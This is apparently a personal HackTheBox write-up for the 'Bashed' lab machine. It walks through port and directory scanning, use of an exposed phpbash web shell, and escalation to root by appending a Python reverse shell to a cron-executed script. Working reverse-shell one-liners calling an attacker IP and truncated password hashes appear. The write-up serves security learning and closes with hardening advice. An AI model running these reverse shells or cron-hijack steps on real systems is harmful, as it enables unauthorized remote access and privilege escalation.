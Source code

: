[HackTheBox] Bashed
===============
date: 25/Jun/2020
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_bashed/infocard.png.webp)

This is a writeup for HTB VM [Bashed](https://www.hackthebox.eu/home/machines/profile/118). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_bashed/killchain.png.webp)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Fri May 29 19:04:11 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/xml/_quick_tcp_nmap.xml 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.32s latency).
Scanned at 2020-05-29 19:04:24 IST for 46s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 29 19:05:10 2020 -- 1 IP address (1 host up) scanned in 59.85 seconds
```

2\. We see that the port `80/tcp` is the only open port on this machine. Let's run `gobuster` and find interesting directories on this web server:  
```
gobuster dir -u http://10.10.10.68:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403,500" -x "txt,html,php,asp,aspx,jsp" -z -o "/home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/tcp_80_http_gobuster_dirbuster.txt"
```

3\. We find a few directories from `gobuster` scan and the `/dev` directory lists two interesting files: `phpbash.min.php` and `phpbash.php`  
```
$ cat results/10.10.10.68/scans/tcp_80_http_gobuster_dirbuster.txt 
  http://10.10.10.68:80/images (Status: 301) [Size: 311]
  http://10.10.10.68:80/index.html (Status: 200) [Size: 7742]
  http://10.10.10.68:80/about.html (Status: 200) [Size: 8190]
  http://10.10.10.68:80/contact.html (Status: 200) [Size: 7802]
  http://10.10.10.68:80/uploads (Status: 301) [Size: 312]
  http://10.10.10.68:80/php (Status: 301) [Size: 308]
  http://10.10.10.68:80/css (Status: 301) [Size: 308]
  http://10.10.10.68:80/dev (Status: 301) [Size: 308]
  http://10.10.10.68:80/js (Status: 301) [Size: 307]
  http://10.10.10.68:80/config.php (Status: 200) [Size: 0]
  http://10.10.10.68:80/fonts (Status: 301) [Size: 310]
  http://10.10.10.68:80/single.html (Status: 200) [Size: 7476]
```

![writeup.enumeration.steps.3.1](/static/files/posts_htb_bashed/screenshot03.png.webp)  

![writeup.enumeration.steps.3.2](/static/files/posts_htb_bashed/screenshot01.png.webp)  

4\. We find that [`phpbash`](https://github.com/Arrexel/phpbash) is a minimal web shell that can give us interactive access to the target machine.  

![writeup.enumeration.steps.4.1](/static/files/posts_htb_bashed/screenshot02.png.webp)  

### Findings
#### Open Ports
```
80/tcp  | http      | 2.4.18 ((Ubuntu))
```
#### Files
```
/dev/phpbash.min.php
/dev/phpbash.php
```

## Phase #2: Exploitation
1\. We visit the `/dev/phpbash.min.php` page and find the `phpbash` interactive web shell UI which enables command execution and further enumeration:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_bashed/screenshot05.png.webp)  

2\. We use a Python reverse shell to obtain interactive access on this system:  
```
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_bashed/screenshot06.png.webp)  

## Phase #2.5: Post Exploitation
```
www-data@bashed> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed>  
www-data@bashed> uname
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@bashed>  
www-data@bashed> ifconfig
ens33   Link encap:Ethernet  HWaddr 00:50:56:b9:44:62  
        inet addr:10.10.10.68  Bcast:10.10.10.255  Mask:255.255.255.255
        inet6 addr: dead:beef::250:56ff:feb9:4462/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:4462/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:83524 errors:0 dropped:332 overruns:0 frame:0
        TX packets:78785 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000 
        RX bytes:5305396 (5.3 MB)  TX bytes:8408691 (8.4 MB)

lo      Link encap:Local Loopback  
        inet addr:127.0.0.1  Mask:255.0.0.0
        inet6 addr: ::1/128 Scope:Host
        UP LOOPBACK RUNNING  MTU:65536  Metric:1
        RX packets:444689 errors:0 dropped:0 overruns:0 frame:0
        TX packets:444689 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1 
        RX bytes:32908196 (32.9 MB)  TX bytes:32908196 (32.9 MB)
www-data@bashed>  
www-data@bashed> users
root
arrexel
scriptmanager
```

## Phase #3: Privilege Escalation
1\. We find that the user `www-data` can run any command as user `scriptmanager` using `sudo`:  
```
sudo -l
sudo -u scriptmanager /bin/bash
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_bashed/screenshot07.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_htb_bashed/screenshot10.png.webp)  

2\. We find an interesting directory `/scripts` which has two files in it. One is a Python script `test.py` owned by user `scriptmanager` and other is `test.txt` owned by `root`. We use a script `CronJobCheckser.sh` and find that there's a `root` owned cronjob that runs the `test.py` script and which creates the `test.txt` file.  
```
ls -la /scripts
cat /scripts/test.py
```

![writeup.privesc.steps.2.1](/static/files/posts_htb_bashed/screenshot08.png.webp)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_bashed/screenshot09.png.webp)  

![writeup.privesc.steps.2.3](/static/files/posts_htb_bashed/screenshot11.png.webp)  

3\. We can now edit this file to execute a reverse shell that gives us elevated privileges on the system:  
```
nc -nlvp 9999
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >>/scripts/test.py
```

![writeup.privesc.steps.3.1](/static/files/posts_htb_bashed/screenshot12.png.webp)  

4\. As soon as the cronjob runs, we get the elevated shell and can now view the `root.txt` flag file:  
```
cat /root/root.txt
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_bashed/screenshot13.png.webp)  

![writeup.privesc.steps.4.2](/static/files/posts_htb_bashed/screenshot14.png.webp)  

## Learning/Recommendation
* Production web server instances should not host developement tools like a PHP web shell. It allowed the attacker to gain interactive access of the target system.
* Service users should not be allowed to use `sudo`. This misconfiguration enabled attacker to switch to a more privileged user account.
* Cronjob files should be owned by the same user that will be allowed to run it. The attacker was able to use this misconfiguration to modify a file they own and get it executed by `root` user.

## Loot
### Hashes
```
arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.:17504:............
scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk.........................
```
### Flags
```
/home/arrexel/user.txt: 2c281f318555dbc1b8569...........
/root/root.txt: cc4f0afe3a1026d402ba10..........
```

## References
* <https://www.hackthebox.eu/home/machines/profile/118>  
* <https://medium.com/@ranakhalil101/hack-the-box-bashed-writup-a8e51a2914c2>  
* <https://0xdf.gitlab.io/2018/04/29/htb-bashed.html>  
